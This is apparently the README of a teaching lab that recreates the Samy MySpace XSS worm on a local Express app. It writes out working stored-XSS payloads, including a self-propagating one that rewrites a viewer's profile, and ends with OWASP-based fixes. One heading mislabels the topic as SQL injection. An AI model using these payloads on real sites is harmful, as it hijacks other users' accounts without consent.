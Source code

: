 # XSS Worm

## Setup
**Dependencies**
<ul>
    <li>Python 3</li>
    <li>Node.js</li>
    <li>Express</li>
    <li>sqlite3</li>
</ul>

Install packages by typing `npm install`

**Run Server**<br>
`node app.js`<br>
Then navigate to `localhost:9100` on browser.

**Create Database**<br>
The database is stored as `example.sqlite` in the same directory as `app.js` <br>

`python3 sql_connect.py < create_tables.sql`<br>
Will create Users table with autoincrementing ID, fullname, username, and password columns.<br>

`python3 sql_connect.py < insert_entry.sql`<br>
Will create default user 'John Doe' with username 'asdf' and password 'qwerty'. Can edit this file for more users. <br>

Input for XSS Worm is stored in `exploit.txt`

## What is SQL Injection
From [Wikipedia](https://en.wikipedia.org/wiki/XSS_worm)
> An XSS worm, sometimes referred to as a cross site scripting virus, is a malicious (or sometimes non-malicious) payload, usually written in JavaScript, that breaches browser security to propagate among visitors of a website in the attempt to progressively infect other visitors.

The most famous of these XSS worms is the [Samy Worm](https://samy.pl/myspace/) where a MySpace user named Samy Kamkar forced users to add himself as a friend and claim him to be his 'hero'. The virus also applied to the victim as well, so subsequent views also infected them, resulting in a spread of about 1 million users.

## Proof of Concept

**Normal Login**
![](screenshots/samy_normal.png)
A user is given a profile page detailing their Name, Occupation, Association, and Number of Friends. Here we have Samy (the malicous attacker), and two normal user John and Alice with similar setups. Key thing to note is that each profile URL contains the user's username. <br>

Credentials for each user can be found in `credentials.txt`

**Samy Edit**<br>
![](screenshots/samy_edit.png)
Each user has an option to edit their profile, but Samy here knows the backend doesn't sanitize input properly and has predictable endpoints. So Samy is able to input `<script>` tags for his information and pass in in-line javascript.

**Code to Add a Friend** <br>
`Myspace <script>fetch("/elite/addFriend", { method: "POST", headers: { "Content-Type": "application/json" }, body: JSON.stringify({user: "elite"})})</script>`<br>
Here, we can edit the Association entry to make it such that anybody who views the page will trigger a `POST` request to add him as a friend.

**Code to Also Make Another Profile Add Samy as a Friend** <br>
`Hacker<script>fetch("/edit", { method: "POST", headers: { "Content-Type": "application/json" }, body: JSON.stringify({user: "average", fullname: "John", occupation:"", association: "Myspace <s\cript>fetch(\"/elite/addFriend\", { method: \"POST\", headers: { \"Content-Type\": \"application/json\" }, body: JSON.stringify({user: \"elite\"})})</s\cript>"})})</script>`<br>
Knowing John's username based on the URL, he can make it such that he can also make John's profile add him as well. So we input the following string to our Occupation entry. A more robust exploit can make the username general, but for demo purposes we'll hard-code the user to be infected.  We can verify that John is infected because now his Association is Myspace as well

## Defense Against XSS Worms
OWASP provides a good prevention cheat sheet [here](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)<br>

For our purposes, changing the `pug` file such that it doesn't allow for [unescaped string interpolation](https://pugjs.org/language/interpolation.html#string-interpolation-unescaped) and making the urls obscure more information would be enough to prevent an attacker like Samy from exploiting. Those changes are reflected in `routes/fixed_index.js` and `views/fixed_dynamic.pug`. Simply run `node fixed_app.js` to view corrections.

**Notes**
<ul>
    <li>If login page is not updating, clear browser cache</li>
</ul>